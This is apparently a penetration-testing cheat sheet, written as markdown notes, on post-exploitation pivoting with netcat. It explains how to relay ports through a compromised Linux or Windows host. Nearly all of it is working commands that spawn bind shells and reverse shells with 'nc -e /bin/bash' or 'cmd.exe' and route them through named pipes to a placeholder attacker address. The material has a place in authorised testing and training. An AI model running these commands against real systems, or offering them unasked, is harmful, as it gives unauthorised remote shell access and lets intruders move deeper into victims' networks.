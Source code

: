```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - scenarios
  - linux
  - windows
---
```

# Netcat

## 01 - Pivoting Listening Ports

Let's say you're stuck in a situation that there's no other way to perform pivoting except one of the netcat variants were preinstalled in the compromised Linux system.

```
$ mkfifo /tmp/backpipe

$ mknod /tmp/backpipe p

$ nc -lnvp <pivot_PORT> 0 < /tmp/backpipe | nc <bind_IP> <bind_PORT> 1 > /tmp/backpipe
```

## 02 - Scenarios

### 2.1 - Bind Port

#### 2.1.1 - Server-to-Client Relay

> [!INFO] Netcat Port Forwarding
> You can bind any exposed port to establish connection as long it works. Do not limit yourself to one specific service.

```
$ mknod /tmp/backpipe pipe; nc -lnvp 8443 0 < /tmp/backpipe | nc <webserver_IP> 443 1 > /tmp/backpipe
```

Create a proxy to interact a web server.

```
$ mknod /tmp/backpipe pipe; nc -lp 8080 0 & < /tmp/backpipe | tee -a inflow | nc <webserver_IP> <webserver_PORT> | tee -a outflow & 1 > /tmp/backpipe
```

Another way is to port forward through SSH then pipe it in the `netcat` listener.

```
$ mkfifo /tmp/backpipe pipe

$ while [ 1 ]; do nc -lp 8443 < /tmp/backpipe | ssh <ssh_server_IP> [-p <PORT>] "nc <webserver_IP> 80" | tee /tmp/backpipe; done
```

Then use `curl` to check connect to the pivot server.

```
userware@hackware-os:~$ curl -k http://<pivot_IP>:8443
```

### 2.2 - Port Forward Bind Shells

#### 2.2.1 - Server-to-Client Relay

Launch a listener from the compromised system.

```
user@computer:~$ nc -lp <target_PORT> -e /bin/bash

C:\> .\nc.exe -lp <target_PORT> -e cmd.exe
```

Bind the IP address and port from the compromised machine and redirect it with a listening port to create a pivot point.

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc -lp <pivot_PORT> < /tmp/backpipe | nc <target_IP> <target_PORT> > /tmp/backpipe
```

Establish connection to the bind shell.

```
userware@hackware-os:~$ nc -v <pivot_IP> <pivot_PORT>
```

#### 2.2.2 - Server-to-Server Relay

Launch two listening ports one from the attacker side and the compromised system.

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc -lp <pivot_PORT_1> < /tmp/backpipe | nc -lp <pivot_PORT_2> > /tmp/backpipe
```

Connect the IP address and port of the server to create a pivot point.

```
user@computer:~$ nc <pivot_IP> <pivot_PORT_2> -e /bin/bash

C:\> nc <pivot_IP> <pivot_PORT_2> -e cmd.exe
```

Establish connection to the bind shell.

```
userware@hackware-os:~$ nc -v <pivot_IP> <pivot_PORT_1>
```

### 2.3 - Port Forward Reverse Shells

#### 2.3.1 - Client-to-Server Relay

Launch the reverse shell handler in order to create a pivot point from the server.

```
userware@hackware-os:~$ nc -lnvp <attacker_PORT>
```

Connect the IP address and port of the attacker's machine to port forward a reverse shell handler.

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc <attacker_IP> <attacker_PORT> < /tmp/backpipe | nc -lnvp <pivot_PORT> > /tmp/backpipe
```

Connect the server's IP address and port to prompt a reverse shell.

```
user@computer:~$ nc <pivot_IP> <pivot_PORT> -e /bin/bash

C:\> nc <pivot_IP> <pivot_PORT> -e cmd.exe
```

#### 2.3.2 - Client-to-Client Relay

Launch a listener from the compromised machine.

```
user@computer:~$ nc -lp <target_PORT> -e /bin/bash

C:\> nc -lp <target_PORT> -e cmd.exe
```

Prepare a shell handler to establish a reverse connection.

```
userware@hackware-os:~$ nc -lnvp <attacker_PORT>
```

Connect the two IP addresses and ports from the attacker machine and the compromised machine (respectively). You should have a reverse shell prompt.

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc <attacker_IP> <attacker_PORT> < /tmp/backpipe | nc <target_IP> <target_PORT> > /tmp/backpipe
```

---
## References

### Michael Nikitochkin

- [Michael Nikitochkin: Netcat with SSH Port Forwarding](https://medium.com/notes-and-tips-in-full-stack-development/netcat-with-ssh-port-forwarding-148177b2e850)